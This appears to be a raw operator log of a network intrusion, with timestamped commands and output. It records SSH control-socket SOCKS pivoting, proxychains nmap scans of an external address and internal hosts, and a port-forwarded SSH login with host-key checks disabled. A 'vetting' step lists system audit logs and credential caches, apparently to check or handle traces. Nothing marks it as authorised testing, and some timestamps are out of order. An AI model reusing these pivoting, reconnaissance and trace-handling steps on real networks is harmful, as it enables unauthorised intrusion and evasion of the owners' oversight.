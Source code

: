 2024-03-25 11:40:51-- survey complete


2024-03-25 11:43:34-- ssh -S /tmp/T4 authgarbage -O forward -D 9050

2024-03-25 11:47:08-- proxychains nmap -Pn -sT -sV -T3 -p52000-52999 192.186.169.206
PORT      STATE SERVICE VERSION
52230/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze8 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

2024-03-25 11:51:14-- proxychains nmap -Pn -sT -sV -T3 -p1-1000,3389 10.101.169.30
PORT    STATE SERVICE     VERSION
135/tcp open  msrpc       Microsoft Windows RPC
139/tcp open  netbios-ssn Microsoft Windows netbios-ssn
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

2024-03-25 11:59:55-- proxychains nmap -Pn -sT -sV -T3 -p33000-33999 10.101.169.30
PORT      STATE SERVICE VERSION
33501/tcp open  ssh     OpenSSH for_Windows_7.7 (protocol 2.0)

2024-03-25 12:00:30-- proxychains nmap -Pn -sT -sV -T3 -p33000-33999 10.101.169.35
PORT      STATE SERVICE VERSION
33501/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)

2024-03-25 11:52:45-- proxychains nmap -Pn -sT -sV -T3 -p1-1000 10.101.169.35
111 (sunrpc) open

2024-03-25 14:39:48-- exit vetting
/var/log/wtmp
/run/utmp
/var/log/messages
/var/lib/sss/mc/passwd
/var/lib/sss/mc/group
/var/log/secure
/run/log/journal/278a5cb9eec4467ab9bc89770c427da5/system.journal
/var/account/pacct

2024-03-25 14:43:14-- exit vet complete

2024-03-25 14:43:49-- exit

------------------------X
=========================

=========================
T5: 10.101.169.30
=========================
X-----------------------
2024-03-25 12:18:07-- ssh -S /tmp/T4 -O forward -L127.0.0.1:5555:10.101.169.30:33501 dummy
2024-03-25 12:18:35-- ssh -MS /tmp/T5 -p 5555 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null askar12@127.0.0.1

2024-03-25 12:19:01-- connected

2024-03-25 12:19:04-- vetting

2024-03-25 12:19:34-- date /t
Mon 03/25/2024

